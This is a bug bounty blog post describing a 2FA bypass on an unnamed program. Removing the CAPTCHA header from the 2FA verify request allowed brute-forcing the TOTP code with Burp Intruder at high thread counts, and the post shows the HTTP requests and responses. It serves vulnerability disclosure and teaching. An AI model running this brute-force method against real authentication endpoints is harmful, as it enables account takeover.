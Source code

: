 ```yaml
---
date: 2020-06-20 22:55:45
layout: post
title: 2FA Bypass
description: 2fa bypass in a private program
image: https://i.ibb.co/pftczhd/2fa-bypass.png
optimized_image: https://i.ibb.co/pftczhd/2fa-bypass.png
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## How I bypassed 2fa in a 3 years old private program!

When I was invited to this private program say "private.com" I was bit discouraged as it was 3 years old program with only 3 eligible scope and I thought that many hackers must have hammered it hard and finding a bug here would just be a waste of time.

But any way I started IDK why ...FFF..

![Alt Text](https://i.ibb.co/s1XLQtp/idk.gif)

So after doing some dirsearch I found 2 open redirects in like ~ 3 mins...But got a duplicate when I submitted the report.

Then I jumped to app.private.com to try some auth flaws and with a hope that no one ever looked here even though it's a 3 year old program...just in case ?

![Alt Text](https://media.giphy.com/media/8GclDP2l4qbx6/giphy.gif)

After trying some things I decided to try some rate limit checks on login and 2fa things ...Both login and 2fa where protected from google captcha :/

So I tried to remove the captcha header from the request to see if web app is blocking any client side changes...and login request gave me "Invalid Captcha"...But 2fa didn't !

- Request with no google captcha headers

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"123456"}
```
- Response 

```
HTTP/1.1 401 Unauthorized
Date: Thu, 18 Jun 2020 06:08:12 GMT
Content-Type: application/json
Content-Length: 36
Connection: close
Access-Control-Allow-Origin: https://app.private.io
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Wrong code! Try again."}
```
No "Invalid Captcha" response now.

![Alt Text](https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif)

Time to spin up the intruder and brute the code !...I used burp pro as I can change the threads. You can use turbo intruder or a simple Python/Go code with concurrent requests to brute it.

But web app uses Google Authenticator so we have only like ~ 59 secs to get the code 

So I used 888 threads with 500 steps ( I could make it more fast and stable with some basic go codes but anyway I only had to give a poc that this attack works).

And in grep added the "Invalid Captacha" to be checked in response 

![Alt Text](https://i.ibb.co/48xDJFM/attack-prep3.png)

![Alt Text](https://i.ibb.co/b3hLFPV/attack-prep2.png)

After like ~ 7 or 9 tries I filtered the response and one request managed to hit the correct TOTP (game of luck and correct time)

- Request

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"XXXXXX"}
```

- Response 

```
HTTP/1.1 200 OK
Date: Thu, 18 Jun 2020 06:12:08 GMT
Content-Type: application/json
Content-Length: 38
Connection: close
Access-Control-Allow-Origin: https://app.private.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Verification successfull"}
```
Submited the report and got the the bounty $$

- Takeaway
 - Just try even if at first sight it dosen't make sense
 - Don't Give Up
